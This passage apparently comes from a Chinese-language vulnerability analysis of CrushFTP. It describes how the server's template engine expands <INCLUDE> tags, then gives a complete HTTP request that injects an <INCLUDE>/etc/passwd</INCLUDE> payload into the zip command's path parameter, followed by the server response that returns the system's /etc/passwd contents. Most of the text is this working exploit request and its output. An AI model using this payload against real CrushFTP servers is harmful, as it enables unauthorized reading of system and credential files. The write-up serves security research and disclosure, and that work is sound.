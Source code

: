 模板引擎搜索模式 <INCLUDE>.*</INCLUDE>  
 ，从两个标签中提取文件路径。然后，获取该文件的内容并将其嵌入到要返回的响应中。此功能似乎可能会公开供应商公告中公布的任意文件读取基元。让我们试一试吧！  
```
POST /WebInterface/function/?command=zip&c2f=vndQ&path=<INCLUDE>/etc/passwd</INCLUDE>&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
```
HTTP/1.1 200 OK
Cache-Control: no-store
Pragma: no-cache
Content-Type: text/xml;charset=utf-8
Date: Mon, 22 Apr 2024 21:56:44 GMT
Server: CrushFTP HTTP Server
P3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Connection: close
Content-Length: 3101

<?xml version="1.0" encoding="UTF-8"?> 
<commandResult><response>You need download, upload permissions to zip a file:/bbb
You need upload permissions to zip a file:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:113:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:116::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:117:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:118::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
```